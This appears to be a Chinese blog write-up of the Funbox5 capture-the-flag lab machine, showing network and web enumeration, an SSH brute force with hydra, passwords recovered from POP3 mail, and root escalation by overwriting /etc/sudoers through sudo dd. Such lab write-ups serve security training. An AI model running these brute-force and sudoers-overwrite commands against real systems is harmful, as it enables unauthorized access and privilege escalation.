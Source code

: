 #  funbox5复现   
原创 LULU  红队蓝军   2024-11-29 10:01  
  
# 信息收集  
  
ip  
```
arp-scan -l
netdiscover -i eth0 -r 192.168.56.0/24
nmap -sP 192.168.56.0/24
masscan 192.168.56.0/24 -p 80,22

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIkLGCUXu54HuAAibk0uspxl63hmvKszppWiacyIcJ70bTufU5Hl4YaFdA/640?wx_fmt=png&from=appmsg "")  
  
端口  
```
nmap -A -p- -T4 192.168.56.107

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIIqxKy4KkbZNKoPHHDUHAPa3ia9mHVn0s7baGicawbP7R1THs9yRTib6Yg/640?wx_fmt=png&from=appmsg "")  
  
目录  
```
使用dirsearch

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIxIibSWib0ZRbqczyibUBMsDyVaicV2wsVic2ZavVHeUQxuNHwVhdCdOcj8A/640?wx_fmt=png&from=appmsg "")  
  
访问robots.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdI9hc94bLTg5xgFlibLVUs1WW0YYXuYVm6SnADFviazoNazb2qeeRiavwYA/640?wx_fmt=png&from=appmsg "")  
  
访问/drupal,重定向到192.168.178.33  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdI9AAwT2j2iaVXA3iaz2fU6DGm7dG901EonMHCcEtf6WEy6HY5yIF4UXdg/640?wx_fmt=png&from=appmsg "")  
  
针对于http://192.168.56.107/drupal/ 再次扫描drupal下的目录  
```
dirsearch -u http://192.168.56.107/drupal/ 

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIibzlUtMqSMrxwWkiaarV5aEAchIk21qM1Mlml2vH6IBkN1IxvUxhCUyw/640?wx_fmt=png&from=appmsg "")  
```
dirb http://192.168.56.107/drupal

```  
  
  
网站探测  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIzTZRFu4K0TbMBjjKRIuMX2SyjtGj7sCpxtibsw8jia1qFXIzWdbnd0iaA/640?wx_fmt=png&from=appmsg "")  
  
网站由WordPress，利用 wpscan 进行扫描对用户进行枚举，发现两个用户  
```
wpscan --url http://192.168.56.107/drupal/index.php--enumerate u

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIiahjZlKrUIoHJR1eWAlJED3siaNEWYx6R8fsx2ic7Lk1ES7BDRf6Z3mdg/640?wx_fmt=png&from=appmsg "")  
  
根据提示--wp-content-dir制定URL  
```
wpscan --url http://192.168.56.107/drupal/index.php --wp-content-dir=http://192.168.56.107/drupal/wp-content --enumerate u

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdI2ibyRlx8ia5IMp5MzU0dykzznQll4fXLJVk6G8fiaemGOvribuXq8icHEaw/640?wx_fmt=png&from=appmsg "")  
  
爆破密码  
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.107

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdI5Uic2MrkA7iaic5kaUvzDHJJ0uibibB6xF83IJUtPRNNicuwjhU8iaZL9WrYQ/640?wx_fmt=png&from=appmsg "")  
  
登录ssh    用户名/密码  ben/pookie  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIJ070t2tecK3QrMKXl2MicTS81y47qXyiahhWjso6OAsTbcwGkdUsWAcw/640?wx_fmt=png&from=appmsg "")  
  
ben用户属于附属组 mail (GID 8)。这在管理用户权限和访问控制时非常有用。例如，属于 mail 组的用户通常会有权限访问与邮件服务相关的资源或文件。  
  
查看mail。提示没有权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIgNMzFtku33lRw6cvEkGCTUuKdwLor5ibpWc0oAZnyUL6ric8vFLAzypQ/640?wx_fmt=png&from=appmsg "")  
  
查看后台监听端口  
```
netstat -anp

```  
  
后台监听端口发现 110端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIlw4IvPicjYicPhL5iapLDGmSWwgxN6qo9PWbhI4Oib3rAss4A0xRSLAa8w/640?wx_fmt=png&from=appmsg "")  
  
端口110是POP3（邮局协议版本3）的默认端口，用于电子邮件的接收和下载。  
  
使用telnet 连接。用 ben 用户的信息凭据登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIHYibZbgCZ8NnWTjRmhvgP38HL0EW52zMZQpn6qOQMzmY9rZZluIXTDw/640?wx_fmt=png&from=appmsg "")  
  
发现有三封邮件，403 、391、578  
  
查看578邮件，得到用户名 / 密码  adam: qwedsayxc!  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIAobtmozLupmrq4oGFR4n2oYlXnH6pwRiabantOicKFibbfkEoEXEUnPrA/640?wx_fmt=png&from=appmsg "")  
  
登录用户adam,附属组为sudo  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdItPnJvMxAkFeqibEQWCW6hWNZ8EA890mv9V3r5DolmdibYx3n6yic6u7hQ/640?wx_fmt=png&from=appmsg "")  
  
sudo 提权  
```
sudo -l

```  
  
adam不需要密码就能以root的身份执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIQvysXtD9PctF9RmU5xlFaYN63vSjd54Chr3Fa17phUQFgQQK3k9yww/640?wx_fmt=png&from=appmsg "")  
  
通过网站GTFOBins查询提权方法  
  
https://gtfobins.github.io/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIFOJgfCUdZt8ASDfN5O5nIK76dn5setgHJ4jEKoW4NLVA2VeQeLY87g/640?wx_fmt=png&from=appmsg "")  
  
提权方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIybKzPiarXQGnmibBuyGjggPiadxyiaRZ1OYUw4GV66KM9RAia5hAx1sGczw/640?wx_fmt=png&from=appmsg "")  
  
该命令可以写入具有root权限的文件，执行命令进行写入文件/etc/sudoers，即设置adam用户具有全部的特权命令。  
  
/etc/sudorers文件解释  
  
该文件允许特定用户像root用户一样使用各种各样的命令，而不需要root用户的密码。  
  
当用户执行sudo时，系统会主动寻找/etc/sudoers文件，判断该用户是否有执行sudo的权限。  
```
LFILE=/etc/sudoers
echo "adam   ALL=(ALL:ALL) ALL " | sudo dd of=$LFILE

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdINkCFdaoQc98k2Tw5iafqGQnAK0ibXUodtyK2dzm43BJJlPWCl7QuyKHA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdIWiaCjkLlHr6Nuto0CWyTd14TFY2WdWHWH9dFMzwA7gDqYddRYlFz9aA/640?wx_fmt=png&from=appmsg "")  
  
找到flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v52JibdIqqibd8IibwUaAwmFdITAtbADUAMxibNLqmotWR1DibQ4I7CIfyq12AFzChd9nbdZrJ9gq2iaicZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
